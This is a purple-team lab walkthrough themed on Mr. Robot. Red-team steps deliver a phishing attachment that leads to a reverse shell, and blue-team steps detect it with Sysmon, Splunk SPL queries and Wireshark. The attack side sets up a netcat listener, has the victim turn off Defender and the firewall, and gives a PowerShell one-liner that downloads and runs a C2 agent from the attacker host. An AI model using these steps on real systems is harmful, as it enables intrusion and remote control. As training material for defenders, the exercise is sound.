# Mr Robot Exercise: Initial Access

## Summary:

In this part of the exercise, the Mr. Robot (Red Team) tasks are to deploy the phishing email and initial payloads created in the pre-attack phase. The payload will be delivered in an attached .iso file and will execute the downloader. The downloader will download a reverse shell that will give F-Society a reverse shell into Terry Colby’s (E-Corp CTO) system.  Additionally, the C2 Framework will be configured. 

The Elliot (Blue Team) tasks are to deploy agents for the SIEM, monitor for suspicious activity, and conduct email analysis, and create an alert. 

## Lab Set Up

We will use our standard lab set up for this exercise. The SIEM should already be installed. 


If you do not have a lab set up you can download the Splunk data from the link below. The timeframe is 13 Oct 24.

[Initial_Access.csv](./Screenshots/03-InitialAccess/Initial_Access%20(1).csv)

1. On the Windows victim machine (wrk-tcolby in my case), create some documents in the Documents folder. This will provide documents for the attacker to steal.
2. Download the zipped file linked below to the Windows victim VM.  This file includes .eml files that will be used to conduct email analysis.

[Emails.zip](Screenshots/03-InitialAccess/Emails.zip)

1. Enable PowerShell logging by downloading and running the PowerShell Script below. 

[powershell_logging.ps1](Screenshots/03-InitialAccess/powershell_logging.ps1)

1. Execute the script by running the following:

```go
powershell.exe -ExecutionPolicy Bypass -File .\powershell_logging.ps1
```

PowerShell transcripts will be written to the C: drive. They will also be ingested into Splunk using the Hurricane PowerShell Add-on.



# Mr Robot (Red Team) Tasks (part 1)

1. If you have not completed the tasks in the pre-attack walkthrough, do so now. 
2. On Kali VM, set up webserver to host the reverse shell to be downloaded.

```go
python3 -m http.server
```



1. Open another terminal and set up a netcat listener.

```go
nc -lvp 1337
```


1. Go the Windows victim VM and ensure that Microsoft Windows Defender and Real-Time Protection, and the firewall are not enabled by selecting the Defender icon in the tray.



1. Select Virus and Threat Protection



1. Select Manage Settings



1. Ensure Real-time protection is not enabled.



1. Select Firewall and network protection and ensure all firewalls are off.



# Elliot (Blue Team) Tasks (part 1)

It is assumed that you followed the instructions for setting up the Windows VMs, including installing Sysmon and starting Sysmon. If not, download the PowerShell script linked below and run it now.

[Install-Sysmon-m122config.ps1](Screenshots/03-InitialAccess/Install-Sysmon-m122config.ps1)

1. If using Splunk as the SIEM enable Splunk logging on the Windows VM. If you have not installed Splunk yet, follow the instructions in the linked walkthrough below.
2. [Installing Splunk](https://www.notion.so/Installing-Splunk-d8f12eabdaa041a5aab53d4b9e4c6110?pvs=21) 
3. Once Splunk is installed select the Settings dropdown and the select “Data inputs” from the Data section.



1. Then select “Remote event log collections”.



1. Enable collection



1. Start packet capture. Log into the the pfSense web interface.  In the Diagnostics drop down choose Packet Capture. 


1. Under the Capture Options choose ECORP (vnet2) and ensure that Promiscuous Mode is enabled. Put “0” in both the Packet Count and Packet Length fields. There are other options; however, we will keep the default settings.



1. To start capturing packets, scroll down to the bottom of the page and select “Start”.  



1. Deploy the phishing email. This will be simulated by going to the Windows victim VM, opening the email in Thunderbird, and executing the attachment.  
2. Unzip the email file you downloaded earlier and open tcolby11.eml with Thunderbird. Open the attachment and run unzipper.exe. 
3. Take note of the time you opened the email in Thunderbird, this will be the start time in the SIEM.  

# Mr Robot (Red Team) Tasks (part 2)

### Enumeration

From the reverse shell run the following commands.

```go
whoami
```

```go
ipconfig
```

```go
systeminformation
```

```go
netstat -nao
```

You can run PowerShell commands from the reverse shell using the template below.

```go
powershell -Command "Your PowerShell command here”
```

For example, to download a C2 agent, you could run a command similar to the one below.

```go

powershell -Command Invoke-WebRequest -Uri "http://10.0.3.2:8000/theredwheelbarrow.exe" -OutFile "C:\Users\tcolby\Downloads\theredwheelbarrow.exe"; C:\Users\tcolby\Downloads\theredwheelbarrow.exe
```

# Elliot (Blue Team) Tasks (part 2)

1. Stop the pcap collection.
2. Download the pcap from pfSense and analyze the pcap.
3. Open your SIEM and begin your analysis.
    1. Narrow the search based on the time the email was launched.
    2. 
    
    
    
    b. Use the following SPL to discover process creation
    

```go
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 
| table _time EventCode process_name parent_process_name CommandLine
```



This SPL includes EventCode 11, which is file create. It adds a little more to the story.

```go
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 OR EventCode=11
| table _time EventCode file_name process_name parent_process_name CommandLine
```



We can also check for network connections.

```go
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3
| table _time EventCode host process_name dest_ip src_ip
```



As seen above there was a network connection to 10.0.3.2.  We can make a note of that to look further into it when we look at the network traffic in WireShark.

The SPL below uses the pstree Splunk add-on to look at process trees.

```go
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 Computer="wrk-colby.Ecorp.local"
| fields *
| pstree child=process_name parent=parent_process_name
| table tree
```



Using the enumeration commands seen above we can use the transaction command to  create an SPL that can be converted to an alert for the execution of those commands within a 60-second window. 

```go
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" process_name IN ("whoami.exe", "ipconfig.exe", "systeminfo.exe")
| transaction host maxspan=60s startswith=process_name="whoami.exe" endswith=process_name="systeminfo.exe"
| table _time host process_name 
```

Below is a breakdown of the SPL:

1. **`source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"`**:
    - This specifies that the query is looking at the **Sysmon** event log (`Microsoft-Windows-Sysmon/Operational`) from Windows Event Logs, which captures detailed event information such as process creation.
2. **`process_name IN ("whoami.exe", "ipconfig.exe", "systeminfo.exe")`**:
    - This filters the events to show only those where the `process_name` field is either `whoami.exe`, `ipconfig.exe`, or `systeminfo.exe`.
    - This field identifies the executable file that triggered the process creation event.
    - The query is looking for any instance where one of these three executables was run.
3. **`| transaction host maxspan=60s startswith=process_name="whoami.exe" endswith=process_name="systeminfo.exe"`**:
    - The **`transaction`** command groups events based on a specified field, in this case, `host`, which refers to the machine where the processes are being executed.
    - **`maxspan=60s`** specifies that the transaction (group of events) should include only events that occur within a 60-second window.
    - **`startswith=process_name="whoami.exe"`** indicates that the transaction should start with the process `whoami.exe`.
    - **`endswith=process_name="systeminfo.exe"`** specifies that the transaction should end with the process `systeminfo.exe`.
    - The combination of these fields detects whether the specified processes (`whoami.exe`, `ipconfig.exe`, and `systeminfo.exe`) were all executed on the same host within 60 seconds.
4. **`| table _time host process_name`**:
    - This part formats the output to show a table with three columns:
        - **`_time`**: The timestamp when the event occurred.
        - **`host`**: The hostname or identifier of the machine where the processes were executed.
        - **`process_name`**: The names of the processes that were detected (`whoami.exe`, `ipconfig.exe`, or `systeminfo.exe`).

This query is designed to detect when the `whoami.exe`, `ipconfig.exe`, and `systeminfo.exe` processes are executed on the same host within a 60-second window by using Windows Sysmon logs. The result is displayed in a table showing the time, host, and process names involved in the transaction. This can be useful for identifying suspicious activity where these system information tools are run in quick succession on a machine, often indicative of reconnaissance behavior.

Below is a screenshot of running the SPL:



We can create an alert by saving the query as an alert.



 Configure the alert.



- Select the action to take and select Save.



You can also create an Alert Dashboard by selecting Save As New Dashboard.



Give the details for the panel.



Review the Dashboard



Analyze the other emails downloaded earlier and determine if they were phishing emails or legitimate emails. The solutions are shown in the Appendix of this walkthough.

 

### Network Traffic Analysis

Download the packet capture from pfSense and open the pcap file in Wireshark.





We will filter for IPv4 10.0.3.2, based on our earlier discovery of a network connection with 10.0.3.2. As seen below there was an established connection and a GET request for “earnings_statement.txt.



If we follow that stream we can see that earnings_statement.txt is actually establishing a reverse shell. Additionally, what we saw written to disk (EventCode 11) was a file named earnings_statement.bat. 

